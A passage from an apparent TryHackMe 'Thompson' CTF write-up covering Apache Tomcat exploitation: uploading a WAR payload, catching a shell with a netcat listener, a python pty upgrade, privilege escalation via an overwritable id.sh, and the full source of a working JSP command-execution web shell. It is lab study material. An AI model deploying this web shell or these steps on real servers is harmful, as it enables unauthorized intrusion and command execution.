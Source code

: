 ![[TryHackMe/Thompson/images/11.png]]

![[TryHackMe/Thompson/images/13.png]]


![[TryHackMe/Thompson/images/6.png]]

Upload your payload via `WAR file to deploy` part.

Call `netcat` listener:

![[TryHackMe/Thompson/images/14.png]]

![[TryHackMe/Thompson/images/15.png]]

Now I got the shell, from that part, let's check the `python` binary. If we have we can enhance our shell with such payload:

`python -c 'import pty; pty.spawn("/bin/bash")'`

![[TryHackMe/Thompson/images/16.png]]


![[TryHackMe/Thompson/images/24.png]]

![[TryHackMe/Thompson/images/23.png]]


Finally, by using `id.sh` you can overwrite it & execute then you can elevate your privileges or you can read `flag.txt or root.txt` through `/root/` path.

### Manual Exploitation 2 (Webshell):

We have to create a file type `Javascript Server Pages`named `index.jsp` file exactly because other file names did not work because of the default configuration of `Apache Tomcat` instance:

- Embed following code segment to create `command` prompt for application. This code segment provides `user interactive` utility for our current session.

```
<FORM METHOD=GET ACTION='index.jsp'>
<INPUT name='cmd' type=text>
<INPUT type=submit value='Run'>
</FORM>
<%@ page import="java.io.*" %>
<%
   String cmd = request.getParameter("cmd");
   String output = "";
   if(cmd != null) {
      String s = null;
      try {
         Process p = Runtime.getRuntime().exec(cmd,null,null);
         BufferedReader sI = new BufferedReader(new
InputStreamReader(p.getInputStream()));
         while((s = sI.readLine()) != null) { output += s+"</br>"; }
      }  catch(IOException e) {   e.printStackTrace();   }
   }
%>
<pre><%=output %></pre>
```
